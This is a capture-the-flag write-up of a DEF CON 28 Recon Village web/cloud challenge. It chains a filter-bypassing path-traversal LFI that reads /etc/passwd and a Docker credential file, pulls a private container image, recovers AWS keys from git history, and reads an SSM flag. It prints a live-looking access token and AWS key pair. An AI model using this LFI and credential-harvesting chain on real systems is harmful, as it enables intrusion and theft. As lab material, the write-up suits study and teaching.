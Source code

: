```yaml
---
layout: post
title: 'Recon Village CTF @ DC28 - Hybrid Awesome App Challenge'
date: '2020-08-10T00:00:00.000-00:00'
author: Keramas
tags: [ctf, defcon28, defconsafemode, reconvillage]
---
```


With so much content this year for Defcon 28, I placed all my focus on the Red Team Village CTF, but my teammate Altezza spent some time looking at the Recon Village CTF during some downtime on Friday and hit me up for some help with an interesting web/cloud challenge.

<img src = "/assets/images/reconvillagedc28/hybridawesomeapp.png">

The application is quite bare, and inputting anything into the box appears to do nothing, but we can see the following parameter which just smells like LFI.

```
http://159.65.106.65/index.php?file=test
```

Inspecting the source code reveals a couple of clues--namely that this application is based on a Docker image hosted on Gcloud.

```html
    <center>
        <h1>Hybrid Awesome App</h1>
        <!-- Built with love using Docker -->
        <form action="/index.php" method="GET">
            <input type="text" name="file">
        </form>

            </center>
    </body>
</html>

[SNIP]
<!-- Golden docker image hosted in gcr.io/recon-285218/recon-code -->
```

After messing around with the file parameter, it was indeed susceptible to LFI through a simple WAF/validation bypass:

```
http://159.65.106.65/index.php?file=..././..././..././..././..././..././etc/passwd
```

<img src = "/assets/images/reconvillagedc28/lfi.png">

Based on the clues in the source code, since it is not possible to retrieve the golden Docker image without authentication, it is a good bet that the LFI is the way to get this data. 

A good clue is also present on the /info.php page:

<img src = "/assets/images/reconvillagedc28/rtfm.png">

This is definitely a hint to read about GCR Docker authentication, which points to the fact that the authentication key should be in `.docker/config.json`. Looking at the `/etc/passwd` entry, we have the Automator user which is used for Ansible, GCR, and other things, so their home directory is a good candidate. Using the LFI to test this out, it was possible to retrieve the auth file.

```
http://159.65.106.65/index.php?file=..././..././..././..././..././..././home/automator/.docker/config.json
```

<img src = "/assets/images/reconvillagedc28/gcloud.png">

Now that the config.json is in our possession, it is possible to authenticate to Gcloud:

```
# gcloud auth activate-service-account --key-file config.json
Activated service account credentials for: [recon-container@recon-285218.iam.gserviceaccount.com]
```

You can then print out the token, and pass it to Docker in order to login.

```
# gcloud auth print-access-token
ya29.c.KpYB1wcWhYrCYdx32EhocOMjGFl37QzHAwsaTblYBN6IKBuuD06g7uZMf2ZZKC4q1mFBaK5NZEUlNCa4hmN4znB4UD3nk2nJbcmQwMta7mtot_F26gH1h0OYr4Gp2_9tuO4FjsJzkHWVjmkB4hjcyKZ7PvXtH1SllKRCE43gQXofzGwVGnyI1FrmO3kVAntpndVgxODMk8mO
```

```
# docker login -u oauth2accesstoken -p "ya29.c.KpYB1wcWhYrCYdx32EhocOMjGFl37QzHAwsaTblYBN6IKBuuD06g7uZMf2ZZKC4q1mFBaK5NZEUlNCa4hmN4znB4UD3nk2nJbcmQwMta7mtot_F26gH1h0OYr4Gp2_9tuO4FjsJzkHWVjmkB4hjcyKZ7PvXtH1SllKRCE43gQXofzGwVGnyI1FrmO3kVAntpndVgxODMk8mO" https://gcr.io/recon-285218/recon-code
```

Now that we are authenticated, the Docker image can be pulled:

```
docker pull recon-285218/recon-code
```

Hopping into the image with `docker run -it <image> sh`, there was an `app` folder containing a git repo.

Using `git log` we can see the change history which mentions env variables, which can contain keys for AWS or other key data.

```
commit 645228975ee876d1ca451e1876967648fffb5157 (HEAD -> master)
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:25:27 2020 +0200

    Final code release

commit d8d2254968636cc74bf6b0eb55c08db1d9586e1c
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:24:46 2020 +0200

    updated the codebase

commit 2db6437f13ad2a547fb4e25b4982b3e14ecc08a6
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:24:04 2020 +0200

    Added env variables

commit 0ebc9223e6d406d79870988fae77b2c7f0f5a856
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:23:08 2020 +0200

    Added docs

commit b2bfab33a39900021900b0c59e760918bc00ded2
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:23:00 2020 +0200

    Added the main code
```
Using `git diff` on the commit for the variables (2db6437f13ad2a547fb4e25b4982b3e14ecc08a6), we get a pair of AWS credentials.

```
diff --git a/.env b/.env
deleted file mode 100644
index f8b4175..0000000
--- a/.env
+++ /dev/null
@@ -1,3 +0,0 @@
-[default]
-aws_access_key_id = AKIAXMXLEAVVDDJAANDD
-aws_secret_access_key = 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
diff --git a/README.md b/README.md
index 3d7addf..0f47c02 100644
--- a/README.md
+++ b/README.md
@@ -1,3 +1,9 @@
 # Ubercool Service
 
 This is an ubercool service. Written in Golang!
```

Now taking these keys and using it with aws-cli tools, we can query AWS to determine what these credentials are for.

```json
# aws sts get-caller-identity
{
    "UserId": "AIDAXMXLEAVVNPZ2QUKVR",
    "Account": "508372977002",
    "Arn": "arn:aws:iam::508372977002:user/read-param"
}
```

Looking at the "read-param" username, it's a good bet that this key pair had some kind of read privileges for parameters in AWS SSM. Taking a look at the parameters present reveals  "/prod/ctf/flag".

```json
# aws ssm describe-parameters --region us-east-1
{
    "Parameters": [
        {
            "Name": "/prod/ctf/flag",
            "Type": "String",
            "LastModifiedDate": 1596816202.755,
            "LastModifiedUser": "arn:aws:iam::508372977002:user/madhuakula",
            "Version": 3,
            "Tier": "Standard",
            "Policies": [],
            "DataType": "text"
        }
    ]
}
```
A final query can then be made to read the parameter, which at long last gives the flag!

```json
# aws ssm get-parameters --name /prod/ctf/flag --region us-east-1
{
    "Parameters": [
        {
            "Name": "/prod/ctf/flag",
            "Type": "String",
            "Value": "ZmxhZzp7ZGU1MzE1NmIyYWEwNzQwNmEwMjZkODQxNThlMzI2N2F9",
            "Version": 3,
            "LastModifiedDate": 1596816202.755,
            "ARN": "arn:aws:ssm:us-east-1:508372977002:parameter/prod/ctf/flag",
            "DataType": "text"
        }
    ],
    "InvalidParameters": []
}
```

```
echo ZmxhZzp7ZGU1MzE1NmIyYWEwNzQwNmEwMjZkODQxNThlMzI2N2F9 | base64 -d
flag:{de53156b2aa07406a026d84158e3267a}
```



